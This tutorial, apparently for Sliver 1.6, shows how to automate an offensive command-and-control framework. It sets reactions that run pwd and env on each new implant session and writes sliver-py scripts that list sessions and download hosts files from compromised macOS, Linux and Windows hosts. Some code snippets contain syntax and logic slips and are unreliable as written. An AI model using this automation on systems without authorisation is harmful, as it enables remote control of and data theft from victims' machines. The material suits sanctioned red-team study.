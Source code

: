 # This course is intended for the 1.6 version of Sliver, which is not yet published

Reactions are a basic way to automate tasks in the sliver console, they allow you to specify sliver commands to run on a list of events.

```bash
Reactable Events:
   session-connected  Triggered when a new session is opened to a target
     session-updated  Triggered on changes to session metadata
session-disconnected  Triggered when a session is closed (for any reason)
              canary  Triggered when a canary is burned or created
          watchtower  Triggered when implants are discovered on threat intel platforms
          loot-added  Triggered when a new piece of loot is added to the server
        loot-removed  Triggered when a piece of loot is removed from the server
```

Let’s go ahead and create a reaction to list the current directory and environment variables when a new session checks in.

```bash
reaction set -e "session-connected"

[*] Setting reaction to: Session Opened

? Enter commands:  [Enter 2 empty lines to finish]pwd
env
? Enter commands:
pwd
env

[*] Set reaction to session-connected (id: 1)
```

The reaction is now set, if you spin up a new session these commands will be automatically run on that session’s initial connection.

```bash
[*] Session 99c7a639 UNEXPECTED_PORTER - 127.0.0.1:59966 (test.local) - darwin/amd64 - Thu, 04 May 2023 09:04:58 CEST

[*] Execute reaction: 'pwd'

[*] /Users/tester

[*] Execute reaction: 'env'

PWD=/Users/tester
COLORTERM=truecolor
...
```

You can remove reactions using `reaction unset`.

However, there are a couple of limitations to keep in mind when using reactions, first off, these are run in the console you are currently using, which is not necessarily the server console. So if you are connected to a sliver server using the sliver client, if you disconnect the client the reactions are no longer running. 

Secondly reactions are a relatively basic mechanism, you can’t use any conditional statements or more complex background tasks with them. For more complex use-cases you can instead write your own client in Python or Typescript for example to connect to the server over gRPC, which we’ll cover next.

## Sliver-py

For the purposes of this tutorial we’ll write our extensions using Python3, however the same result is achievable using Typescript, Golang or any other language that can handle gRPC.

First, install the sliver-py extension using pip.

```bash
pip3 install sliver-py
```

Since our extension is essentially going to be another client connection to the sliver server, you’ll also need to enable multiplayer mode and generate a new profile

```bash
[server] sliver > multiplayer

[*] Multiplayer mode enabled!

[server] sliver > new-operator -n tester -l 127.0.0.1

[*] Generating new client certificate, please wait ...
[*] Saved new client config to: /Users/tester/tools/tester_127.0.0.1.cfg
```

We now have everything we need to start writing our scripts, let’s run our first example interactively in a Python shell. 
We first need to import a few dependencies, `SliverClientConfig`, which is used to parse the client config we’ve just created, and `SliverClient`, which will handle the connection to the backend server.

```bash
Python 3.9.16 (main, Dec  7 2022, 10:06:04)
Type 'copyright', 'credits' or 'license' for more information
IPython 8.0.1 -- An enhanced Interactive Python. Type '?' for help.

In [1]: from sliver import SliverClientConfig, SliverClient

In [2]: DEFAULT_CONFIG = "/Users/tester/tools/tester_127.0.0.1.cfg"

In [3]: config = SliverClientConfig.parse_config_file(DEFAULT_CONFIG)

In [4]: client = SliverClient(config)

In [5]: await client.connect()
Out[5]:
Major: 1
Minor: 5
Patch: 37
Commit: "0a43dc688ffb31a0a38511c47e8547a44a6918d4"
CompiledAt: 1681408237
OS: "darwin"
Arch: "arm64"
```

From this point on we can use the client object to interact with the server, let’s start with listing any sessions or beacons that might be currently connected.

```bash
In [6]: beacons = await client.beacons()

In [7]: sessions = await client.sessions()

In [8]: beacons
Out[8]: []

In [9]: sessions
Out[9]:
[ID: "f80ec897-0870-4f03-a1b1-364e5a0d243c"
 Name: "UNEXPECTED_PORTER"
 Hostname: "test.local"
 UUID: "c6de1a44-016a-5fbe-b76a-da56af41316d"
 Username: "tester"
 UID: "501"
 GID: "20"
 OS: "darwin"
 Arch: "amd64"
 Transport: "http(s)"
 RemoteAddress: "127.0.0.1:60218"
 PID: 74773
 Filename: "/Users/tester/tools/UNEXPECTED_PORTER"
 LastCheckin: 1683185925
 ActiveC2: "http://127.0.0.1"
 ReconnectInterval: 60000000000
 PeerID: 4416183373589698218
 FirstContact: 1683185429]
```

To run commands on this session you’ll need to create an InteractiveSession object.

```bash
In [10]: interact = await client.interact_session("f80ec897-0870-4f03-a1b1-364e5a0d243c")

In [11]: await interact.pwd()
Out[11]: Path: "/Users/tester"
```

Now that we’ve got the basics of connecting to sliver and running commands down let’s write a more useful script that will display the hosts file when a new session checks in. Our goal is to first identify the Operating System, and then based on that retrieve and display the contents of the hosts file if it exists. Because this script will wait and react to events emitted by the Sliver server, we’re going to use `asyncio` to write our client.

```bash
#!/usr/bin/env python3

import os
import asyncio
from sliver import SliverClientConfig, SliverClient
import gzip

DEFAULT_CONFIG = "/Users/tester/tools/neo_127.0.0.1.cfg"

async def main():
    ''' Client connect example '''
    config = SliverClientConfig.parse_config_file(DEFAULT_CONFIG)
    client = SliverClient(config)
    await client.connect()

    async for event in client.on('session-connected'):
        print('Session %s just connected !' % event.Session.ID)

if __name__ == '__main__':
    loop = asyncio.get_event_loop()
    loop.run_until_complete(main())
```

As shown above we can access the session object through `event.Session`. Let’s go ahead and add a few conditions based on the operating system.

```bash
if event.Session.OS == "darwin":
            print('Session is running on macOS')

elif event.Session.OS == "Linux":
            print('Session is running on Linux')
elif event.Session.OS == "Windows"
            print('Session is running on Windows')
else:
            print('Session is running on %s', event.Session.OS)
```

Let’s set up an InteractiveSession object like previously.

```bash
interact = await client.interact_session(event.Session.ID)
```

We’re going to start with writing the code for Linux and macOS, since in their case the file is located in the same place. First we check if the file exists, then we download and decompress it to display its contents using gzip.

```bash
file_listing = await interact.ls("/etc/hosts")
if file_listing.Exists:
	gzipFile = await interact.download("/etc/hosts")
  contents = gzip.decompress(gzipFile.Data)
  print('%r' % contents)
```

The code for Windows is relatively similar the only major difference being the file location.

```bash
file_listing = await interact.ls("C:/Windows/System32/drivers/etc/hosts")
if file_listing.Exists:
	gzipFile = await interact.download("C:/Windows/System32/drivers/etc/hosts")
  contents = gzip.decompress(gzipFile.Data)
  print('%r' % contents)
```

If we run our script and spin up a few sessions we should start to see hosts files being retrieved.

```bash
python3.11 autocat.py
Automatically interacting with session 16338c85-b670-44ab-ac83-2df885654b07
b"# Copyright (c) 1993-2009 Microsoft Corp.\r\n#\r\n# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.\r\n#\r\n# ...

Automatically interacting with session 93fcbab2-f00d-44a4-944a-e1ea8ec324e2
b'##\n# Host Database\n#\n# localhost is used to configure the loopback interface\n# when the system is booting.  Do not change this entry.\n##\n127.0.0.1...
```
